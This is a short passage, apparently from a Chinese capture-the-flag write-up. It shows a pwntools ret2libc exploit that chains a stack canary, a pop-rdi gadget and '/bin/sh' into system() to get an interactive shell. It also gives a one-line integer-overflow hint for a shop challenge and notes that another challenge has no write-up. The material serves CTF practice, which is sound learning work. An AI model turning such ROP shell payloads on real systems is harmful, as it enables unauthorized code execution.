 ```

pop_rdi=proc_base+0x1713
ret=proc_base+0x101a
system=libc_base+libc.sym["system"]
binsh=libc_base+libc.search(b"/bin/sh\x00").__next__()

payload=p64(canary)
payload+=p64(rbp)
payload+=p64(pop_rdi)
payload+=p64(binsh)
payload+=p64(ret)
payload+=p64(system)

io.sendline(payload)

io.interactive()

```

## 商店购物

溢出，正数十二位或者负数大于一万

##  stack

暂无wp

